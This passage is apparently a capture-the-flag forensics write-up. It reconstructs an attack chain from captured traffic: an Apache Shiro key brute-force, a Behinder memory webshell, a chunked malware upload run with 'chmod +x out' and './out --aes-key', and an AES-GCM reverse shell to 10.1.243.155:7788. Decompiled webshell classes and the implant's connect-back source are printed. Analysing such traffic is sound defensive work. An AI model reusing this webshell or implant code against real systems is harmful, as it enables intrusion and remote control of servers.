            try {
                Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write = so.getClass().getMethod("write", byte[].class);
                write.invoke(so, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                return true;
            } catch (Exception e) {
                return true;
            }
        } catch (Exception e2) {
            try {
                Object so2 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write2 = so2.getClass().getMethod("write", byte[].class);
                write2.invoke(so2, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so2.getClass().getMethod("flush", new Class[0]).invoke(so2, new Object[0]);
                so2.getClass().getMethod("close", new Class[0]).invoke(so2, new Object[0]);
                return true;
            } catch (Exception e3) {
                return true;
            }
        } catch (Throwable th) {
            try {
                Object so3 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write3 = so3.getClass().getMethod("write", byte[].class);
                write3.invoke(so3, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so3.getClass().getMethod("flush", new Class[0]).invoke(so3, new Object[0]);
                so3.getClass().getMethod("close", new Class[0]).invoke(so3, new Object[0]);
            } catch (Exception e4) {
            }
            throw th;
        }
    }

    private String getInnerIp() throws SocketException {
        String ips = "";
        try {
            Enumeration<NetworkInterface> netInterfaces = NetworkInterface.getNetworkInterfaces();
            while (netInterfaces.hasMoreElements()) {
                NetworkInterface netInterface = netInterfaces.nextElement();
                Enumeration<InetAddress> addresses = netInterface.getInetAddresses();
                while (addresses.hasMoreElements()) {
                    InetAddress ip = addresses.nextElement();
                    if (ip != null && (ip instanceof Inet4Address)) {
                        ips = ips + ip.getHostAddress() + " ";
                    }
                }
            }
        } catch (Exception e) {
        }
        return ips.replace("127.0.0.1", "").trim();
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        for (String key : entity.keySet()) {
            sb.append("\"" + key + "\":\"");
            String value = entity.get(key).toString();
            if (encode) {
                if (version.compareTo("1.9") >= 0) {
                    getClass();
                    Class Base64 = Class.forName("java.util.Base64");
                    Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
                    value = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    getClass();
                    Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
                    value = ((String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, value.getBytes("UTF-8"))).replace("\n", "").replace("\r", "");
                }
            }
            sb.append(value);
            sb.append("\",");
        }
        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }

    private String base64encode(byte[] data) throws Exception {
        String result;
        System.getProperty("java.version");
        try {
            getClass();
            Class Base64 = Class.forName("java.util.Base64");
            Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
            result = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, data);
        } catch (Throwable th) {
            getClass();
            Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
            String result2 = (String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, data);
            result = result2.replace("\n", "").replace("\r", "");
        }
        return result;
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.Response = obj.getClass().getMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
            this.Session = obj.getClass().getMethod("getSession", new Class[0]).invoke(obj, new Object[0]);
        } else {
            Map<String, Object> objMap = (Map) obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }
        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }

    private byte[] getMagic() throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        int magicNum = Integer.parseInt(key.substring(0, 2), 16) % 16;
        Random random = new Random();
        byte[] buf = new byte[magicNum];
        for (int i = 0; i < buf.length; i++) {
            buf[i] = (byte) random.nextInt(256);
        }
        return buf;
    }
}
```


This retrieved system information. Decoding the response confirmed this.
Subsequent decryption and reversal revealed the execution of several system commands, including listing `/tmp`, `/var`, `/var/tmp`.
Later, a file write operation was found:

```java
package sun.yxiw;

...

/* compiled from: FileOperation.java */
/* loaded from: payload-favicondemo(18).ico.class */
public class Auydc {
	...
    public Auydc() {
        mode = "";
        mode += "update";
        path = "";
        path += "/var/tmp/out";
        blockIndex = "";
        blockIndex += "2";
        blockSize = "";
        blockSize += "30720";
        content = "";
        content += "h61Bx+...X2zlQkI5M";
        this.osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
    }
	...
}
```
This appended Base64-decoded `content` to `/var/tmp/out`. Many similar append requests followed. Wireshark's Export Objects feature was used to export all 737 files related to `/favicondemo.ico`. A Python script was written to decrypt and save them as class files or text files based on content. This revealed the multi-part upload of a binary.
Finally, a hash check was performed:

```java
package sun.pquyv;

...

/* compiled from: FileOperation.java */
/* loaded from: payload-favicondemo(722).ico.class */
public class Yfnc {
	...
    public Yfnc() {
        mode = "";
        mode += "check";
        path = "";
        path += "/var/tmp/out";
        hash = "";
        hash += "a0275c1593af1adb";
        this.osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
    }

    private String checkFileHash(String path2) throws Exception {
        FileChannel ch = (FileChannel) sessionGetAttribute(this.Session, path2);
        if (ch != null && ch.isOpen()) {
            ch.close();
        }
        byte[] input = getFileData(path2);
        if (input == null || input.length == 0) {
            return null;
        }
        MessageDigest md5 = MessageDigest.getInstance("MD5");
        md5.update(input);
        byte[] byteArray = md5.digest();
        StringBuilder sb = new StringBuilder();
        for (byte b : byteArray) {
            sb.append(String.format("%02x", Byte.valueOf(b)));
        }
        return sb.substring(0, 16);
    }
	...
}
```

Execution permissions were granted:
```java
package net.zlzbr.fsio.vbycsd;

...

/* compiled from: Cmd.java */
/* loaded from: payload-favicondemo(734).ico.class */
public class Xxzrrw {
    public static String cmd;
    public static String path;
    public static String whatever;
    private static String status = "success";
    private Object Request;
    private Object Response;
    private Object Session;
    ...
    public Xxzrrw() {
        cmd = "";
        cmd += "cd /var/tmp/ ;chmod +x out";
        path = "";
        path += "/var/tmp/";
    }
    ...
}
```
Then it was executed:
```java
package org.zhnnj;

...

/* compiled from: Cmd.java */
/* loaded from: payload-favicondemo(736).ico.class */
public class Imrdoaaxs {
	...
    public Imrdoaaxs() {
        cmd = "";
        cmd += "cd /var/tmp/ ;./out --aes-key IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=";
        path = "";
        path += "/var/tmp/";
    }
    ...
}
```
This provided an aes-key: `IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=`. No further HTTP communication occurred after this.

# Layer 3: Custom Shell

Following the HTTP stream, a TCP stream communication was found. Dumping it revealed:

```plain
1f000000
33740a2c22b1e703d2f1480b321f3e4cdc8eb50da84ca0a76543b6bbadf60a
24000000
5c8a2365d717d71114b7be5599d5cfff553f2f0b2251505c3f5ada10a77be1bf35852f9c
1e000000
e3ee79aaf91b813d407e18095278046d32c10567fe57d60459d32f6df234
1f000000
bd345efc1465b04f38a410a09ed999e9849a570c27dd75e8d6b8aac5a4f22f
30000000
be53ef2dc360548f22bd7145f4e1733ffeb228db69b28e76ccb65ea9d8e33a709cfae6579a795f4045dbc2f6300cd871
2b000000
2b7991ad1cfcb2c0b334f5ee5cfb1be844f232c5062190e5e7bfb2208ef40aec6cff1aa7df01285fd3a92a
6e000000
8ac33897541bf959bb223309ffa07a25c49245bb988404180f84d7baef2c2ca8dfd669d39d3fa9c9e66b3da81834c7121cad53ffb16b38dcb062b2b3ce1b634f3bac9ed6e161661efb67ab754eb078718c484cb1b9ec873a103035fdc0b28ed418aa11e68b561599b9685ae54b95
69000000
5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5
24000000
410d930f46d9e71c2200eb1fc4ec9986fd2d72ab2c35aa85fe66fa664a3729e3e9a906b6
1f000000
7ccb9636b4b330000914519540b5a3b0bacb6f594c3b03ff582d62084c1af4
```
Due to the variable length, ECB and CBC were unlikely. GCM was considered a strong possibility, especially as the first two command lengths (31 and 30 bytes after decryption) corresponded to typical commands like `pwd` and `ls`, with the remaining bytes matching GCM's structure (12-byte nonce, 16-byte tag). Attempting GCM decryption:
```python
import base64
import binascii
from Crypto.Cipher import AES

key = base64.b64decode("IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=")

hex_str = """
1f000000
33740a2c22b1e703d2f1480b321f3e4cdc8eb50da84ca0a76543b6bbadf60a
24000000
5c8a2365d717d71114b7be5599d5cfff553f2f0b2251505c3f5ada10a77be1bf35852f9c
1e000000
e3ee79aaf91b813d407e18095278046d32c10567fe57d60459d32f6df234
1f000000
bd345efc1465b04f38a410a09ed999e9849a570c27dd75e8d6b8aac5a4f22f
30000000
be53ef2dc360548f22bd7145f4e1733ffeb228db69b28e76ccb65ea9d8e33a709cfae6579a795f4045dbc2f6300cd871
2b000000
2b7991ad1cfcb2c0b334f5ee5cfb1be844f232c5062190e5e7bfb2208ef40aec6cff1aa7df01285fd3a92a
6e000000
8ac33897541bf959bb223309ffa07a25c49245bb988404180f84d7baef2c2ca8dfd669d39d3fa9c9e66b3da81834c7121cad53ffb16b38dcb062b2b3ce1b634f3bac9ed6e161661efb67ab754eb078718c484cb1b9ec873a103035fdc0b28ed418aa11e68b561599b9685ae54b95
69000000
5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5
24000000
410d930f46d9e71c2200eb1fc4ec9986fd2d72ab2c35aa85fe66fa664a3729e3e9a906b6
1f000000
7ccb9636b4b330000914519540b5a3b0bacb6f594c3b03ff582d62084c1af4
""".replace('\n', '').replace(' ', '')

data = binascii.unhexlify(hex_str)

i = 0
chunk_idx = 0
while i < len(data):
    length = int.from_bytes(data[i:i+4], 'little')
    i += 4
    
    chunk = data[i:i+length]
    i += length
    
    nonce = chunk[:12]
    ciphertext = chunk[12:-16]
    tag = chunk[-16:]
    
    cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
    print(f"{chunk_idx}: len{len(plaintext)}: {plaintext}")
        
    chunk_idx += 1
```
The output was:
```plain
0: len3: b'pwd'
1: len8: b'/var/tmp'
2: len2: b'ls'
3: len3: b'out'
4: len20: b'echo Congratulations'
5: len15: b'Congratulations'
6: len82: b'echo 3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi'
7: len77: b'3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi'
8: len8: b'echo bye'
9: len3: b'bye'
```
Putting `3SoX7GyGU1KBVYS3DYFbfqQ2CHqH2aPGwpfeyvv5MPY5Dm1Wt9VYRumoUvzdmoLw6FUm4AMqR5zoi` through CyberChef, applying Base58 then Base64 decryption yielded the Flag: `dart{d9850b27-85cb-4777-85e0-df0b78fdb722}`


----
A later attempt to fully extract and reverse engineer the binary uploaded in chunks confirmed it was a PyInstaller-packaged ELF. Decompiling the extracted `inspect.pyc` revealed:
```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.9

import os
import socket
import struct
import subprocess
import argparse
import settings
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
SERVER_LISTEN_IP = '10.1.243.155'
SERVER_LISTEN_PORT = 7788
IMPLANT_CONNECT_IP = '10.1.243.155'
IMPLANT_CONNECT_PORT = 7788
SERVER_LISTEN_NUM = 20
_aesgcm = None

def set_aes_key(key_b64 = None):
    global _aesgcm
    key = base64.b64decode(key_b64)
    if len(key) not in (16, 24, 32):
        raise ValueError('AES 密钥长度必须为 16, 24 或 32 字节（对应 128, 192, 256 位）')
    _aesgcm = None(key)


def encrypt_data(data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    nonce = None.urandom(12)
    ciphertext = _aesgcm.encrypt(nonce, data, None)
    return nonce + ciphertext


def decrypt_data(encrypted_data = None):
    if _aesgcm is None:
        raise RuntimeError('AES 密钥未初始化，请先调用 set_aes_key()')
    if None(encrypted_data) < 28:
        raise ValueError('加密数据太短，无法包含 nonce 和认证标签')
    nonce = None[:12]
    ciphertext_with_tag = encrypted_data[12:]
    plaintext = _aesgcm.decrypt(nonce, ciphertext_with_tag, None)
    return plaintext


def exec_cmd(command, code_flag):
    command = command.decode('utf-8')
# WARNING: Decompyle incomplete


def send_data(conn, data):
    if type(data) == str:
        data = data.encode('utf-8')
    encrypted_data = settings.encrypt_data(data)
    cmd_len = struct.pack('i', len(encrypted_data))
    conn.send(cmd_len)
    conn.send(encrypted_data)


def recv_data(sock, buf_size = (1024,)):
    x = sock.recv(4)
    all_size = struct.unpack('i', x)[0]
    recv_size = 0
    encrypted_data = b''
    if recv_size < all_size:
        encrypted_data += sock.recv(buf_size)
        recv_size += buf_size
        continue
    data = settings.decrypt_data(encrypted_data)
    return data


def main():
    sock = socket.socket()
    sock.connect((settings.IMPLANT_CONNECT_IP, settings.IMPLANT_CONNECT_PORT))
    code_flag = 'gbk' if os.name == 'nt' else 'utf-8'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    parser = argparse.ArgumentParser('', **('description',))
    parser.add_argument('--aes-key', True, '', **('required', 'help'))
    args = parser.parse_args()
    settings.set_aes_key(args.aes_key)
    main()
```
This confirmed the use of AES-GCM.

---
# Summary
The complete attack chain was as follows:



- **Phase 1: Shiro Vulnerability Exploitation and RCE Verification**
    - The attacker successfully brute-forced the Apache Shiro AES key by sending GET requests containing `rememberMe` cookies.
    - Subsequently, the attacker used the `Authorization` header to pass encrypted commands. The web server executed commands like `whoami` and returned the Base64 encrypted result `root`.
        
- **Phase 2: Implanting Memory Webshell and Initial Control**
    - The attacker sent a POST request to the `/` path containing a Java class, successfully injecting a Behinder memory webshell, establishing the C2 channel on the `/favicondemo.ico` path.
    - The attacker sent AES-encrypted Java classes through this channel, using the web application layer to read the underlying system's environment variables, IP information (`172.18.0.2`), and execute basic system commands (e.g., `ps -ef`).

- **Phase 3: Malware Upload and Execution**    
    - Through the webshell, the attacker used `blockIndex` and `blockSize` parameters to upload an ELF binary in chunks, appending it to `/var/tmp/out`, and verified its hash (`a0275c1593af1adb`).
    - The attacker issued the shell command `chmod +x out` to grant execution permissions and ran the malware on the underlying system using `./out --aes-key ...`.
    
- **Phase 4: TCP Reverse Connection to Obtain Flag**
    - Once executed, the Python-based malware bypassed the web layer and actively initiated a TCP connection to the attacker's C2 server (`10.1.243.155:7788`).
    - Both parties switched to AES-GCM encryption. The attacker issued remote control commands like `pwd`, `ls`, and `echo Congratulations`, ultimately retrieving the Flag from the final response.

Overall, it was quite an interesting challenge.
